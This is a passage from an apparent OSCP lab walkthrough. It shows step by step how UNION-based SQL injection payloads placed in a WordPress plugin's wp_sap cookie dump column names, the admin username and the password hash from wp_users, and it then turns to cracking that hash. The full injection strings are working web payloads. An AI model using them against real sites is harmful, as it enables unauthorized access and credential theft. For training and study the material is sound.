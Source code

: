 ```sql
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,column_name,11 FROM   
information_schema.columns WHERE table_name='wp_users'#"]
```

-    As with the previous payload, this payload will also be placed in the** wp\_sap cookie value in the Repeater tab.**

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/14.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/15.jpg)

-    The result of our query reveals several column names
-    The most interesting to us are **user_login and user_pass** as these will most likely contain the **credentials to authenticate to the WordPress instance**
-    Next, let’s query for the **username**
-    To do this, we need to send a SQL injection request asking for all **user_login** values from the** wp_users table**.
```sql
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_login,11 FROM wp_users#"]
```

-    We once again repeat the same injection as before.

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/16.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/17.jpg)

-    This query discloses only one username: **wp_ajla_admin**.
-    Now that we have a** username,** it’s time to get the **password hash**
-    To do this, we need to replace **user_login** in our query with **user\_pass**
```sql
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_pass,11 FROM wp_users#"]
```

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/18.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/19.jpg)

-    As a result of our injection, we are able to recover the **admin’s password hash**.

-   Note the encoding at the end; the response contains three “\\” characters to escape the single “/”.

-    This hash will need to be cracked before we **attempt to authenticate against the web application**

# Summary 
- Cracking the password hash with john the ripper

## Cracking the Password

-    Now that **we have the password hash**, we will **need to crack it to get the plain text password**
